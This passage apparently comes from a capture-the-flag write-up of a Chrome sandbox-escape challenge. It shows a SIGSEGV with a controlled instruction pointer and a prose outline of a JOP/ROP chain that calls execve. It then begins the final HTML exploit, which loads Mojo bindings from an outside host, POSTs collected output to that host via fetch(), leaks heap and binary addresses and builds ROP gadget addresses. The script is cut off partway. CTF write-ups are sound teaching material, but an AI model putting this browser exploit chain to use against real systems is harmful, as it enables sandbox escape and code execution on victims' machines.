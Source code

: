 ```
Thread 8 "Chrome_IOThread" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff1504640 (LWP 12853)]
0x0000000041414141 in ?? ()
```

🥳

At this point we just have to set up a JOP + ROP chain near our fake VTable and use it to launch the flag printer. In short we jump to a stack pivot JOP gadget and point RSP to our fake vtable, then from there execute a ROP chain that runs `execve("/home/chrome/flag_printer")`. Nothing special. The chrome binary has a lot of gadgets so we don't even need to leak the address of libc.

`hitcon{d0nt_U53_uNR3+4N3d_uSe_W34k_PtR_1nStEaD}`

## Final exploit:

```html
<html>
<head>

<script src="http://chain.galli.me:8080/mojo/mojo_bindings.js"></script>
<script src="http://chain.galli.me:8080/mojo/third_party/blink/public/mojom/sandbox/sandbox.mojom.js"></script>

<script>
let printbuf = [];
function print(msg) {
  printbuf.push(msg);
}

async function uploadLogs() {
  await fetch('http://chain.galli.me:8080/logs', {
    method: 'POST',
    body: printbuf.join('\n'),
  });
}

function hex(x) {
  return `0x${x.toString(16)}`;
}

function newClient() {
  let iface = new blink.mojom.SandboxPtr();
  Mojo.bindInterface(blink.mojom.Sandbox.name, mojo.makeRequest(iface).handle);

  return iface;
}

async function sbx() {
  let fake = newClient();
  const heap_leak = (await fake.getHeapAddress()).addr;
  const text_leak = (await fake.getTextAddress()).addr;

  const chrome_base = BigInt(text_leak) - 0x627fc20n;
  print(`Text leak: ${hex(text_leak)}`);
  print(`Chrome base: ${hex(chrome_base)}`);

  const syscall = chrome_base + 0x0972e4b7n; // syscall; ret;
  const move_stack = chrome_base + 0x08ff9a59n; // add rsp, 0x28; ret;
  const pop_rdi = chrome_base + 0x0d8e655bn; // pop rdi; ret
  const pop_rsi = chrome_base + 0x0d8cdf7cn; // pop rsi; ret;
  const pop_rdx = chrome_base + 0x0d86e112n; // pop rdx; ret;
  const pop_rax = chrome_base + 0x0d8e64f4n; // pop rax; ret;

```